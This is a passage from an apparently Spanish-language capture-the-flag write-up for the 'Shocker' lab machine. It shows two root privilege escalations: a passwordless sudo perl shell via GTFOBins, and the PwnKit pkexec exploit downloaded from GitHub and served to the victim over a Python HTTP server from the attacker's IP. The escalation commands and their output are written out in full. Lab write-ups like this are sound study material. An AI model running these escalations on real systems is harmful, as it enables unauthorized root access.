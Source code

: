 Podemos ejecutar el comando perl con permisos de sudo sin necesidad de tener una contraseña, por lo que vamos a hacer uso del recurso de [GTFObins](https://gtfobins.github.io/gtfobins/perl/#shell)

```bash
  shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
  # whoami
  root
```

## ESCALADA DE PRIVILEGIOS POR PWNKIT

Ahora vamos a realizar el escalamiento de privilegios revisando los permisos en la máquina.

```bash
  find / -perm -4000 2>/dev/null
  /usr/bin/pkexec
```

Utilizamos el script de [ly4k](https://github.com/ly4k/PwnKit) de sus repositorios en [github](https://github.com/ly4k).

```bash
  cd ../exploit
  ❯ curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
```

Luego de tener descargado el recurso, creamos un servidor `http` con ayuda de `python`.

```bash
  ❯ sudo python3 -m http.server 80
```

En la máquina victima por medio de la utilidad `wget`, realizamos la descarga del contenido compartido anteriormente.

```bash
  cd /tmp
  shelly@Shocker:/tmp$ wget http://10.10.14.4/PwnKit                             
  --2022-07-20 23:58:12--  http://10.10.14.4/PwnKit
  Connecting to 10.10.14.4:80... connected.s://raw.githubusercontent.com/ly4k/PwnK 
  HTTP request sent, awaiting response... 200 OK
  Length: 18040 (18K) [application/octet-stream]
  Saving to: 'PwnKit'
  
  PwnKit              100%[===================>]  17.62K  79.0KB/s    in 0.2s    
  
  2022-07-20 23:58:12 (79.0 KB/s) - 'PwnKit' saved [18040/18040]
```

Ahora solo debemos dar permisos de ejecución al binario y ejecutarlo para tener un usuario con privilegios elevados.

```bash
  shelly@Shocker:/tmp$ chmod +x PwnKit 
  shelly@Shocker:/tmp$ ./PwnKit 
  root@Shocker:/tmp# whoami
  root
```
